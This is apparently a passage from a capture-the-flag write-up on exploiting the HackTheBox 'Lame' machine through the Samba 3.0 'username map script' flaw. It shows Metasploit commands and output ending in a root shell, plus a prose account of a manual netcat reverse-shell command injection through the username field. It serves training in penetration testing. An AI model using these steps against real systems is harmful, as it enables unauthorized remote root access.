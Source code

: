 ```bash
 msf6 > searchsploit Samba 3.0
 Matching Modules
 ================
 
    #  Name                                       Disclosure Date  Rank       Check  Description
    -  ----                                       ---------------  ----       -----  -----------
    0  exploit/linux/samba/chain_reply            2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
    1  exploit/linux/samba/lsa_transnames_heap    2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
    2  exploit/multi/samba/usermap_script         2007-05-14       excellent  No     Samba "username map script" Command Execution
    3  exploit/osx/samba/lsa_transnames_heap      2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
    4  exploit/solaris/samba/lsa_transnames_heap  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
 ```
I will use exploit/multi/samba/usermap_script to exploit the service (use 2).

```bash
 msf6 exploit(multi/samba/usermap_script) > set RHOSTS <machine ip address>
 RHOSTS => 10.129.84.98
 msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
 LHOST => tun0
 msf6 exploit(multi/samba/usermap_script) > exploit

 whoami
 root
 python -c 'import pty;pty.spawn("/bin/bash")'                      
 root@lame:/#
```
### Samba Exploiation (Manual)

### Command Injection

We can try to login into tmp folder in the samba service using [__smbclient__](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html){:target="_blank"}. We got an error in
connection because this machine is of the older version, so we can provide that same version
using options.

```bash
 Command - smbclient -N //<ip address>/tmp
 protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
 Command - smbclient -N //<ip address>/tmp --option='client min protocol=NT1'
```
After providing same version of Samba, we get the write access in tmp directory. Now we can try to
do command injection in the username field by using payload and on another terminal, we have to
open the Netcat to listen on a port.

We know that vulnerability has been exploited using command injection in the username. The payload
includes nohup(which is used to end the shell after a long time) and we put the listener command
(nc) along with our local IP address and port, and then /bin/sh, which provides a shell on the
system. we can also use /bin/bash as its another common shell present on linux.

